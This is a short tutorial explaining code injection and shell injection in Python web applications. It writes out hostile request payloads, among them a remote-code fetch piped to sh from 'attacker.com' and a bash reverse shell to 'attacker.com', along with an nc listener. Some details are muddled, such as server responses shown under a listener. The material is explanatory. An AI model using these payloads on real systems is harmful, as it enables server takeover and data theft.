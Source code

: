 # Code Injection

Code injection is the malicious injection or introduction of code into an application. This code is then used by an attacker to change the flow of execution of the application, allowing the attacker to execute arbitrary code. Let's take a look at a simple example of code injection with Python in a web application.

```python
import os
os.system("ls")
```

Imagine that the above code is part of a web application where no validation is done on the input. An attacker can inject these commands into the application and execute arbitrary code on the server. The web application request might look like this:

```python
GET /?name="__import__('os').system('ls')"
Host: example.com
```

If this works, the attacker can execute any command on the server. Instead, a trojan C2 server can be injected into the application.

```python
GET /?name="__import__('os').system('curl http://attacker.com/trojan.sh | sh')"
Host: example.com
```

The attacker can then start receiving data from the server with `nc` (reverse shell).

```bash
nc -l -p 1234

HTTP/1.1 200 OK
```

And the server is compromised.

## Shell Injection

A shell injection is a type of code injection where the attacker injects a shell command into the application. This command is then executed by the application, allowing the attacker to execute arbitrary code. Let's take a look at a simple example of shell injection with Python in a web application.

```python
GET /download?url="google.com;bash -i >& /dev/tcp/attacker.com/1234 0>&1"
Host: example.com
```

The attacker can receive the reverse shell with `nc`.

```bash
nc -l -p 1234

HTTP/1.1 200 OK
```
